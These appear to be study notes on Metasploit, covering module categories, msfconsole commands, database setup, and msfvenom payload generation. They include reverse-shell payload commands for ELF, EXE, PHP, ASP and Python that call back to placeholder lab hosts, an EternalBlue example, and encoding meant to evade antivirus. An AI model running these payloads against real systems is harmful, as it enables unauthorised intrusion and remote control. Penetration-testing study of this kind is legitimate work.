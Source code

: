 

modules: 
/opt/metasploit-framework/embedded/framework/modules
module rankings: https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking


Auxiliary
Any supporting module, such as scanners, crawlers and fuzzers, can be found here.

Encoders
Encoders will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them.

Evasion
While encoders will encode the payload, they should not be considered a direct attempt to evade antivirus software. On the other hand, “evasion” modules will try that, with more or less success.

Exploits
Exploits, neatly organized by target system.

NOPs
NOPs (No OPeration) do nothing, literally. They are represented in the Intel x86 CPU family with 0x90, following which the CPU will do nothing for one cycle. They are often used as a buffer to achieve consistent payload sizes.

Payloads
Payloads are codes that will run on the target system.
* Adapters: An adapter wraps single payloads to convert them into different formats. For example, a normal single payload can be wrapped inside a Powershell adapter, which will make a single powershell command that will execute the payload.
* Singles: Self-contained payloads (add user, launch notepad.exe, etc.) that do not need to download an additional component to run.
* Stagers: Responsible for setting up a connection channel between Metasploit and the target system. Useful when working with staged payloads. “Staged payloads” will first upload a stager on the target system then download the rest of the payload (stage). This provides some advantages as the initial size of the payload will be relatively small compared to the full payload sent at once.
* Stages: Downloaded by the stager. This will allow you to use larger sized payloads.


Post
Post modules will be useful on the final stage of the penetration testing process listed above, post-exploitation.

————————————————————————————————————————————————————————

commands:

- Set the context: use <module path> : `use exploit/windows/smb/ms17_010_eternalblue `
    - `show options`
    - `show payloads`: show other commands to use for the current exploit
    - Get module info in context: `info`
    - Set value for contextual option: `set PARAMETER_NAME VALUE`, `set LPORT 443`
    - Launch the module: `exploit`, `exploit -z`, `run`
    - Check if target system is vulnerable: `check`
    - `background` - puts the exploit session in background. This commands is run in meterpreter session
    - `sessions`: list available sessions
    - `sessions -i 2` : interact with the session number 2
- `back` : leave the context
- `info <module path>` : get information for given module
- `search <keywords>`: searches module using CVE numbers, exploit names (eternalblue, heartbleed, etc.), or target system:
    - filter based on module: `search type:auxiliary telnet`


——

Setup Database:

    - msfdb init 
    - in msfconsole:
        - `db_status`
        - `workspace`: shows different workspaces ( targets/projects) available
        - `Hosts`: lists different scanned hosts
        - `services`: lists scanned services
        - `db_nmap`: same as nmap, but store the results in database
——  ——————

Generate Payloads using msfvenom

- `msfvenom -l payloads` : list all payloads
- `msfvenom --list formats` : list available payload formats. Eg. php
- `-e encoding_type` : set encoding
- `use exploit/multi/handler`: metasploit handler to catch any incoming reverse shell requests triggered by msfvenom payloads. set appropriate payload  value
- Eg. `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64`
* Linux Executable and Linkable Format (elf) msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
* Windows  msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
* PHP msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php  ASP msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp  Python msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe